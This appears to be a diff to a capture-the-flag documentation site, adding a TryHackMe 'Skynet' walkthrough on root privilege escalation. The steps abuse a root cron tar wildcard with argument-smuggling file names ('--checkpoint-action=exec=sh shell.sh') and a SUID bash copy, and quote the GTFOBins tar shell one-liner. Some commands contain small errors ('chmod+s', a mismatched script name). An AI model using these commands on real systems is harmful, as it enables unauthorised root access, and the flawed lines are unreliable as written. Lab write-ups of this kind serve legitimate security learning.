

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/skynet.md, in a window 1280 px wide and 1400 px high, scrolled down 11613 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/source/docs/thm/skynet.md
+++ b/source/docs/thm/skynet.md
@@ -462,3 +462,39 @@ Explore:
     47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
     52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
     #
+
+The `backup.sh` script in `/home/milesdyson/backups` uses the `tar` command-line tool to archive the contents of
+the web application stored in `/var/www/html` and place the backups in the backup folder. The script is executed
+by root every minute.
+
+Acoording to [GTFOBins tar](https://gtfobins.github.io/gtfobins/tar/), tar can be exploited when running as
+root (sudo):
+
+    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
+
+Tar has an argument called `–checkpoint`, which displays a "progress" message every time n number of files have
+been archived. This can be used in concatenation with the `–checkpoint-action` flag, which executes an action,
+in the form of a binary or script, whenever a checkpoint is reached.
+
+The wildcard used in the script will execute a given command against all files and folders in the `/var/www/html`
+directory, and this can be exploited by adding a `–checkpoint=1` file (to enable the checkpoint function) and a
+`–checkpoint-action=exec=/tmp/hack.sh` file (to specify the action to perform) which will be effectively treated
+as arguments when tar comes across them.
+
+Create a `bash` script which will create SUID binary of bash, naming it `shell.sh`:
+
+```text
+#!/bin/bash
+cp /bin/bash /tmp/shell && chmod+s /tmp/shell
+```
+
+In `tmp`, execute the commands to create the two files (arguments) for `tar`:
+
+    touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
+    touch "/var/www/html/--checkpoint=1"
+
+After `cron` has run and has created the shell SUID copy of bash, execute it with the `-p` flag:
+
+    $ /tmp/shell -p
+    # whoami
+    root
````
Also changed, not shown: source/docs/windows/escalation.md (+20 -0 lines).
